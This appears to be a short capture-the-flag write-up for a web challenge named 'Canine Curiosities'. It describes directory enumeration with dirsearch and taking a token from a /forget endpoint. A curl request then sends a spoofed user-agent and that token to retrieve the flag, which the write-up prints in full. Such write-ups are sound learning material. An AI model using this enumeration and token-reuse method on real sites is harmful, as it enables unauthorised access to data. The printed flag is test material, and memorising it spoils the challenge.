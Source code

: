 # Canine Curiosities
- Used dirsearch on [url](https://canine-curiosities.vercel.app) to find [url](https://canine-curiosities.vercel.app/app.js)  .

- Found token from [url/forget](https://canine-curiosities.vercel.app/forget) and then uses 'cux' as username to retrieve flag from [url/fact](https://canine-curiosities.vercel.app/fact)

- Used the following command in terminal :
    ```
  $ curl -H "user-agent:cux" -H "token:fec62644-6db3-11ee-a34a-505bc2eeff4f" https://canine-curiosities.vercel.app/fact
    ```
- Got the following result:
    ```
    {"fact":"cruXipher{m0n15h4_f0R_pR0m_qV33n}"}
    ```

## Flag
```
cruXipher{m0n15h4_f0R_pR0m_qV33n}
```
